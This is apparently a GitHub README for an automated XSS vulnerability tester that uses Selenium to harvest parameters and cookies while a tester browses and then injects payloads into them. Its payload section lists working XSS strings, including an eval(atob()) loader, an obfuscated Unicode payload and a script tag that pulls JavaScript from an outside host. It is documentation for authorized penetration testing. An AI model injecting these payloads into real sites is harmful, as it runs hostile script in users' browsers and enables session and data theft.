 # LiveTester.py 🛡️

`LiveTester.py` is an automated **XSS vulnerability tester** that integrates with Selenium to monitor browser activity in real-time and dynamically test discovered URL, form, and cookie parameters for reflected or DOM-based XSS vulnerabilities. You navigate and manually test while the program runs automated tests.

> ⚠️ **For authorized penetration testing only. Never run this against systems without explicit permission.**

---

## 💡 Features

- Live parameter extraction from:
  - URLs
  - Forms
  - Cookies
  - AJAX requests
- Automated XSS payload injection (GET and POST)
- Real-time alert detection and DOM reflection checks
- Dual Selenium WebDriver setup (navigation + test instance)
- Persistent state management to avoid retesting same parameters
- Configurable thread count, scope whitelist, and delay ranges
- JSON output for results, alerts, and summaries

---

## 🛠️ Requirements

Install with:

```bash
pip install -r requirements.txt
```

**`requirements.txt`:**
```txt
selenium
beautifulsoup4
requests
```
You might want to check the official chromedriver download website: https://googlechromelabs.github.io/chrome-for-testing/#stable

---

## 🚀 Usage

1. Clone the repo or copy `LiveTester.py`.
2. (Optional) Create a `config.json` file:
```json
{
  "whitelist": ["example.com"],
  "max_threads": 3,
  "delay_range": [0.2, 0.3]
}
```
3. Run the script:

```bash
python LiveTester.py
```

4. Use the opened browser to manually navigate the target app.
5. Discovered parameters will be auto-tested in the background.

---

## 📂 Output Files

| File                  | Description                                  |
|-----------------------|----------------------------------------------|
| `collected_parameters.json` | All discovered and queued parameters       |
| `collected_cookies.json`    | Cookies captured during browsing          |
| `xss_results.json`          | GET/POST payload test logs                |
| `xss_alerts.json`           | Confirmed alert/network/DOM-based XSS     |
| `xss_summary.json`          | Summary report with total stats           |
| `tested_params.json`        | Persisted tested parameter names          |

---

## 🧪 Payload Examples

Payloads include DOM and reflected XSS variations such as:

```html
<script>alert("xss")</script>
<img src=x onerror=alert("xss")>
<script src="https://js.rip/shootweb"></script>
<svg onload=alert("xss")>
"><img src=invalid.jpg onerror=eval(atob(this.id)) id=...>
```

And obfuscated / Unicode payloads like:

```html
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```

---

## 🧠 Tips

- Configure your ChromeDriver path if not in system PATH.
- Use a proxy (like BurpSuite) for deeper inspection during tests.
- Make sure ChromeDriver version matches your Chrome version.
- The script respects scope via `whitelist` to avoid out-of-scope scans.

---

## ⚖️ Legal

This tool is intended for **educational and authorized security research** only. Running this against targets you do not have permission to test is illegal and unethical.

---

## 🙏 Credits

Built with ❤️ by an ethical hacker for safer web applications.

```python
# For ethical testing purposes only.
```

